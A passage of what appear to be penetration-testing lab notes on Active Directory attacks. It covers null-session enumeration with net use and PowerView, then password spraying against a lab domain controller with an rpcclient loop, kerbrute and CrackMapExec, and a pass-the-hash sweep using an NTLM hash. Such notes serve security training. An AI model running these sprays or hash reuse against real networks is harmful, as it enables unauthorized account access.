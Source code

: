 ```bash
```

### Windows
#### Enumerating Null Session
```powershell
> net use \\DC01\ipc$ "" /u:""

# Using net.exe
> net accounts

# Using PowerView
PS > import-module .\PowerView.ps1
> Get-DomainPolicy
```

* * *

## Password Spraying
Password spraying can result in gaining access to systems and potentially gaining a foothold on a target network. The attack involves attempting to log into an exposed service using one common password and a longer list of usernames or email addresses. The usernames and emails may have been gathered during the OSINT phase of the penetration test or our initial enumeration attempts. Remember that a penetration test is not static, but we are constantly iterating through several techniques and repeating processes as we uncover new data. Often we will be working in a team or executing multiple TTPs at once to utilize our time effectively. As we progress through our career, we will find that many of our tasks like scanning, attempting to crack hashes, and others take quite a bit of time. We need to make sure we are using our time effectively and creatively because most assessments are time-boxed. So while we have our poisoning attempts running, we can also utilize the info we have to attempt to gain access via Password Spraying. Now let's cover some of the considerations for Password spraying and how to make our target list from the information we have.

### Linux
Now that we have created a wordlist using one of the methods outlined in the previous sections, it’s time to execute our attack. The following sections will let us practice Password Spraying from Linux and Windows hosts. This is a key focus for us as it is one of two main avenues for gaining domain credentials for access, but one that we also must proceed with cautiously.

```bash
# Using a Bash one-liner
$for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done

# Using Kerbrute 
$ kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1


# Using CrackMapExec 
$ sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +
$ sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p password.txt --no-bruteforce| grep + 

## Validating the Credentials with CrackMapExec
$ sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123

## Local Administrator Password Reuse
$ sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +
```
